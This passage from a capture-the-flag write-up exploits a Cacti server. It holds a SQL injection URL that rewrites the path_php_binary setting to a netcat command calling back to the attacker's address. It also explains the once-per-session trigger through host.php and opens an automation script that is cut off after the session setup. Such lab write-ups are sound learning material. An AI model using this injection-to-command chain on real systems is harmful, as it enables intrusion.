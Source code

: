 

    oxdf@parrot$ sudo tcpdump -i tun0 -n icmp
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
    14:04:37.782418 IP 10.10.10.238 > 10.10.14.7: ICMP echo request, id 3035, seq 1, length 64
    14:04:37.782445 IP 10.10.14.7 > 10.10.10.238: ICMP echo reply, id 3035, seq 1, length 64



#### Difficulties

The hardest part of getting a shell for me was learning a quirk about
the RCE and how the `host.php` trigger worked. I was set up with the
request to do the SQL injection in one Burp Repeater window, and the
trigger via `host.php` in another. I noticed that even after I changed
the payload, I was still getting pings.

I updated the injection request to print what was in the
`path_php_binary` variable before it changed it:



    /cacti/color.php?action=export&header=false&filter=1')+UNION+SELECT+1,name,value,4,5,6,7+from+settings+where+name='path_php_binary';update+settings+set+value='nc+10.10.14.7+443'+where+name='path_php_binary';--+- 



In doing this, I could see that I was successfully changing the
database, but still getting the original pings.

It seems that no matter what the DB says, the actually binary will would
only update once per session. So once I visited `host.php` to trigger,
if I wanted to trigger again, I needed to log out and back in, and then
it would work.

#### Script

Because that involved a lot of clicking, I wrote a script to do it.
There are four steps:

-   Get the CSRF token from the login page
-   Login
-   SQLi
-   Trigger



    #!/usr/bin/env python3

    import re
    import requests
    import sys
    import urllib.parse


    payload = urllib.parse.quote(sys.argv[1]) + ';'

    sess = requests.Session()
    sess.proxies.update({'http': 'http://127.0.0.1:8080'})
